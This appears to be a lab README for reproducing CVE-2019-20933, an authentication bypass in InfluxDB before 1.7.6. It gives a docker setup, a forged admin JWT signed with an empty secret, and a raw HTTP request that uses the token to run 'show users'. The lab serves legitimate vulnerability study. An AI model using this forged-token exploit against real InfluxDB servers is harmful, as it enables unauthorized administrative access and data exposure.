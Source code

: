 # InfluxDB Empty JWT Secret Key Authentication Bypass (CVE-2019-20933)

[中文版本（Chinese Version）](README.zh-cn.md)

InfluxDB is an open-source time series database developed by the company InfluxData.

InfluxDB before 1.7.6 has an authentication bypass vulnerability in the authenticate function in `services/httpd/handler.go` because a JWT token may have an empty SharedSecret (aka shared secret).

References:

- https://www.komodosec.com/post/when-all-else-fails-find-a-0-day
- https://github.com/influxdata/influxdb/issues/12927
- https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933
- https://docs.influxdata.com/influxdb/v1.7/administration/config/#http-endpoints-settings

## Vulnerable Environment

Execute following command to start a InfluxDB 1.6.6:

```
docker-compose up -d
```

After server is started, you can see some debug information in `http://your-ip:8086/debug/vars`. But you are unable to execute SQL statement without authencation and a 401 error is responsed:

![](1.png)

## Vulnerability Reproduce

We can use <https://jwt.io/> to generate a valid JWT token with an empty secret key:

```
{
  "alg": "HS256",
  "typ": "JWT"
}
{
  "username": "admin",
  "exp": 2986346267
}
```

Where `username` is the administrator account name, and `exp` is the token expiration time. You should set `exp` to a future time to make it effect:

![](2.png)

Then take this token to the request, and success to execute SQL statement `show users` in the server:

```
POST /query HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoyOTg2MzQ2MjY3fQ.LJDvEy5zvSEpA_C6pnK3JJFkUKGq9eEi8T2wdum3R_s
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 22

db=sample&q=show+users
```

![](3.png)

